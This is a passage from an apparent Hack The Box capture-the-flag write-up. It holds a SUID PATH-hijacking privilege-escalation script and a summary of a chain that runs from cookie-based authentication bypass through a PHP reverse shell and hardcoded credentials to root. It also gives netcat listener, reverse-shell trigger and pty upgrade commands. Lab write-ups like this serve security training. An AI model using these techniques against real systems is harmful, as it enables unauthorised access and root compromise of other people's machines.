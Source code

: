 **SUID Exploitation Script:**
```bash
#!/bin/bash
# Create malicious cat binary
echo "#!/bin/bash" > /tmp/cat
echo "/bin/sh" >> /tmp/cat
chmod +x /tmp/cat

# Modify PATH environment
export PATH=/tmp:$PATH

# Trigger privilege escalation
/usr/bin/bugtracker
```

### Proof of Concept

**1. Web Application Compromise:**
- Successfully bypassed authentication through cookie manipulation
- Gained admin access to upload functionality
- Uploaded and executed PHP reverse shell
- Obtained `www-data` shell on target system

**2. Lateral Movement:**
- Discovered hardcoded credentials in `db.php`
- Successfully authenticated as user 'robert'
- Accessed user flag: `HTB{user_flag_here}`

**3. Privilege Escalation:**
- Identified SUID binary owned by root
- Exploited PATH manipulation vulnerability
- Achieved root access and obtained root flag: `HTB{root_flag_here}`

---

## Privilege Escalation

### Initial Foothold Establishment

After uploading the PHP reverse shell and gaining access as `www-data`, the first step involves establishing a stable shell and beginning local enumeration.

```bash
# Establish netcat listener
nc -lvnp 1234

# Access reverse shell
http://{TARGET_IP}/uploads/php-reverse-shell.php

# Upgrade to interactive shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Local Enumeration Methods
